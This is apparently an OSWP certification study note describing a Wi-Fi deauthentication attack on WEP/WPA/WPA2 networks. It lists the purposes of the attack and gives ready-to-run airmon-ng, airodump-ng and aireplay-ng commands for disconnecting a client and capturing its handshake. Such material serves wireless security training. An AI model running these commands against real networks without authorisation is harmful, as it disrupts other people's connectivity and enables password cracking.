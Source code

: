 # OSWP - Deauthentication Attack (WEP/WPA/WPA2)

This attack sends disassocate packets to one or more clients which are currently associated with a particular access point. Disassociating clients can be done for a number of reasons:

* Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is “cloaked”.
* Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate
* Generate ARP requests (Windows clients sometimes flush their ARP cache when disconnected)

Of course, this attack is totally useless if there are no associated wireless client or on fake authentications.

## Commands

* Run [setup](../../setup.md) first
* Two terminals needed here, so use `screen` or log in twice
     * Make sure terminal is full screen
* Make sure that there is an associated client connected to target AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=2285)